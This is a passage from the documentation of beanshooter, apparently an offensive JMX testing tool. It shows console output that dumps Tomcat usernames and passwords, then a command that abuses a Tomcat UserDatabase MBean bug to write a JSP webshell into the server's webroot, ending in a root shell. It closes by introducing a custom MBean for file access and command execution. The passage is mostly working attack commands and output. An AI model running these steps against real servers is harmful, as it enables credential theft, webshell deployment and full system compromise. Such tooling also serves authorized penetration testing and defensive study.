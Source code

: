 ```console
[+] 	----------------------------------------
[+] 	Username:  admin
[+] 	Password:  s3cr3T!$
[+] 	Roles:
[+] 		   Users:type=Role,rolename="admin-gui",database=UserDatabase
[+] 		   Users:type=Role,rolename="admin-script",database=UserDatabase
[+]
[+] 	----------------------------------------
[+] 	Username:  status
[+] 	Password:  cr@cKM3o.O
[+] 	Roles:
[+] 		   Users:type=Role,rolename="manager-status",database=UserDatabase
```

#### Tomcat Write

The `write` operation writes a partially controlled file to an arbitrary location on the application
server. This action can be used to reliably deploy a webshell on a *Tomcat* service:

```console
[qtc@devbox ~]$ beanshooter tomcat write 172.17.0.2 1090 /opt/webshell-cli/webshells/webshell.jsp /usr/local/tomcat/webapps/ROOT/shell.jsp
[+] Writing local file /opt/webshell-cli/webshells/webshell.jsp to server location /usr/local/tomcat/webapps/ROOT/shell.jsp
[+] 	Current user database is at conf/tomcat-users.xml
[+] 	Current user database is readonly
[+] 	Adjusting readonly property to make it writable.
[+] 	Changing database path to /usr/local/tomcat/webapps/ROOT/shell.jsp
[+] 	Creating new role containing the local file content.
[+] 	Saving modified user database.
[+] 	Restoring readonly property.
[+] 	Restoring pathname property.
[+] All done.
[qtc@devbox ~]$ webshell-cli http://172.17.0.2:8080/shell.jsp
[root@d475fdb21692 /usr/local/tomcat]$ id
uid=0(root) gid=0(root) groups=0(root)
```

The `write` action abuses an encoding bug within the *UserDatabase MBean* of *Apache Tomcat*. We reported
the bug, but it was not considered a security vulnerability. For writing to arbitrary locations, *beanshooter*
needs to change the location of the *UserDatabase*. All changes are restored, after the desired file was written,
but still be careful in production environments.


### Tonka

---

The *TonkaBean* is a custom *MBean* that is implemented by the *beanshooter* project and allows
file system access and command execution on the *JMX* server. Its actions can be accessed by
using the `tonka` operation, followed by the desired action.
